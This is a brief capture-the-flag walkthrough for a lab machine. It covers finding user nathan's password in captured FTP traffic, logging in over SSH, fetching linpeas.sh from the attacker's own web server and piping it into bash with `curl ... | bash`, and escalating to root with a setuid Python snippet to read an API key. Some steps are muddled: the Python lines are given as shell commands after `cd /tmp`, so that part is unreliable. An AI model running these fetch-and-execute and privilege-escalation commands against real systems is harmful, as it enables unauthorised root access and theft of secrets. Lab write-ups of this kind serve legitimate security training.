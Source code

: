 **Objective**
Privilege escalation by accessing account belonging to nathan to find API key.

**Solving The Box**
- Open lab webpage by entering target machine IP address into own web browser address bar.
- Find and open *network status* menu. Download network status file. Open in *wireshark* to see logs of file transfer protocol traffic. Find password for user account nathan.
- Login via ssh command `ssh nathan@<IP address>`.
- Download linpeas.sh using Google search. Go to folder with linpeas.sh., then open terminal there. 
- In the terminal, enter command `sudo python3 -m http.server` to start a server to send linpeas.sh to the target machine.
- Return to terminal with nathan logged in. Enter command `curl http://<IP address>/linpeas.sh | bash`
- If it does not work, manually execute linpeas.sh by running command `./linpeas.sh`. 
- For manual execution, first receive access to root using commands:
		`cd /tmp` *this is to enter tmp folder*
		`import os` 
		`os.setuid(0)` *here 0 corresponds to root user id*
		`os.system("/bin/bash")`
- With root access, enter *root* directory then open .txt file containing API key.

